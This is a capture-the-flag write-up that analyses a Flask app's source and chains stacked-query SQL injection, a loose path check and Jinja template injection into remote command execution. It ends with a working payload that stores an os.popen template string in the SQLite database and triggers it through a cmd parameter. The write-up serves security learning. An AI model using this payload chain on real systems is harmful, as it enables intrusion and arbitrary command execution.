

# Super Guided Web

Can you make use of all three techniques you have learnt to exploit this app?

(The error on /guides/view/1 is expected)

---

## Analysis

```py
@app.route("/guides")
def guide():
    uid = request.cookies.get("uid")
    if not uid or not os.path.exists(f"./content/databases/{uid}.db"):
        return redirect("/")
    if not safe_path(f"./content/databases/{uid}.db", "./content/databases"):
        return "Die hacker!"
    search = request.args.get("search")
    results = []
    conn = sqlite3.connect(f"./content/databases/{uid}.db")
    c = conn.cursor()
    try:
        c.execute(f"select * from guides where name like '%{search}%'")
    except Exception as e:
        c.executescript(f"select * from guides where name like '%{search}%'")
    for row in c.fetchall():
        result = {}
        result["name"] = row[1]
        result["id"] = row[0]
        results.append(result)
    conn.commit()
    conn.close()
    return jsonify(results)
```

The endpoint accepts a ?search parameter which we can use to search for guides.
SQLi is obvious here, but what is more interesting is .executescript. .execute
only allows me to execute 1 query at a time, which removes the possibility of
doing stuff like insert or update queries. However, .executescript allows me to
execute more than 1 query at a time, which I can abuse by terminating the
current query with `;`.

Also, as a side note: each user has a separate database to exploit (as indicated
by the uid), which hints towards editing the database as part of the exploit. 

```py
def safe_path(path, safe_dir="./content"):
    safe_dir = os.path.realpath(safe_dir)
    if os.path.commonprefix((os.path.realpath(path),safe_dir)) != safe_dir:
        return False
    return True

@app.route("/guides/view/<id>")
def view_guide(id):
    uid = request.cookies.get("uid")
    if not uid or not os.path.exists(f"./content/databases/{uid}.db"):
        return redirect("/")
    if not safe_path(f"./content/databases/{uid}.db", "./content/databases"):
        return "Die hacker!"
    conn = sqlite3.connect(f"./content/databases/{uid}.db")
    c = conn.cursor()
    id = int(id)
    results = list(c.execute(f"select path from guides where id = {id}"))
    conn.commit()
    conn.close()
    if len(results) != 1:
        return "Not found"
    if id > 3:
        print(uid, id, results)

    path = results[0][0]

    if not safe_path(f"./content/guides/{path}", "./content"):
        return "Die smarter hacker!"
        
    try:
        contents = open(f"./content/guides/{path}","rb").read()
        # Strip out unicode characters
        contents = bytes(x for x in contents if x < 128)
        return render_template_string(contents.decode("ascii"))
    except Exception as e:
        return f"There was an error processing your request: {e}"
```

Here I have my SSTI at `render_template_string`. The program reads a file based
on the path associated with the requested ID, and passes it into
render_template_string. There seems to be some weird check to strip characters
larger than 127 (although 0-31 isn't stripped which kinda defeats the purpose of
stripping in the first place).

Also, the program keeps checking if the path is safe (ie. in the allowed
./content directory). Note that in the second check, it only checks for
./content instead of ./content/guides, so it means that I actually can have
some sort of LFI within the ./content directory!

## Exploit

I've identified our 3 vulnerabilities already. How should I chain them together?

First, my LFI is only possible from the database, because the path is being read
from the database. Hence, I should probably use our insert-based SQLi to fake a
new path to some file.

Second, my LFI is limited to the ./content directory, so it's not possible to
read files outside of that. Hence that eliminates the possibility of simply
reading some logs/env (which usually would have worked on similar LFI2RCE
challenges like PHP).

Third, if I want to exploit the SSTI, I need to write to some file on the system
since that's the only way we can pass input into `render_template_string`. The
only effective write I have is to the database (via SQLi).

Being familiar with SQLite, I remembered that most of its contents are actually
stored as plaintext (in some form). For example, if I were to `strings` an
SQLite database, I would see all my table and column names, as well as the data
it contains. Hence, if I were to LFI to the database, technically I can exploit
my SSTI!

Here is the general exploit path:

1. Insert a new row into the `guides` table. 
    1. Set `path` to the path to our database.
    2. Set `name` to the SSTI payload. Since it's a bit slow to do this
       iteratively (which I usually have to do using the slow but versatile
       subclasses payload), I went for the quick cycler/joiner/namespace
       payload, which allows me to get RCE in one shot (provided those objects
       are available in the Jinja env).
    3. If you want to make exploitation faster/more fun, make your command
       dynamic by using request.args or request.cookies.
2. Navigate to the newly-injected row which should be at ID 4. This will trigger
   the SSTI and we can get our flag.

Final payload:

`'; insert into guides (name, path) values ("{{ cycler.__init__.__globals__.os.popen(request.args.cmd).read() }}", "../databases/<uid>.db") -- `

`/guides/view/4?cmd=cat%20flag.txt`


